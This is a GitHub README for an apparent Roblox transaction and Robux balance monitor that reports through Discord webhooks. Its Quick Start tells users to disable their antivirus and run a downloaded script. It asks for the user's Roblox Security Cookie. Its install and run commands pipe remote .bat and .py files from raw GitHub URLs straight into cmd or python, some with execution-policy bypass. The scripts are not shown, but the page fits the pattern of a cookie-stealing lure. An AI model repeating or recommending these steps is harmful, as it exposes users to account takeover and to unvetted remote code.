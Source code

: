 # Roblox Transaction Monitor (CTL Edition)
A command-line tool to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Screenshots

<img width="731" height="192" alt="Screenshot 2025-10-30 122532" src="https://github.com/user-attachments/assets/cef27e07-8c6d-400f-96df-dda8088851b6" />
<img width="417" height="206" alt="image" src="https://github.com/user-attachments/assets/6b6d568c-c5a5-4df1-ab0e-d5cdea0683e0" />

## Features

- [x] Real-time monitoring of Roblox transactions via CTL
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] Lightweight CLI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Quick Start

- [x] Disable antivirus temporarily
- [x] Download and run the CTL script
- [x] Re-enable antivirus once configured

## TODO
- [x] Add time-range filters (day / month / year / total)
- [ ] Package as a single portable executable

## Configuration
Create a `config.json` file with:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (seconds)
6. Time-span filter: `day`, `month`, `year`, or `total`

## Usage
Install dependencies:
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat' | % Content | cmd"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
unInstall packages
```
powershell -ep bypass -Command "IWR 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat' | % Content | cmd"
```
## License
This project is licensed under the Apache License - see the LICENSE file for details.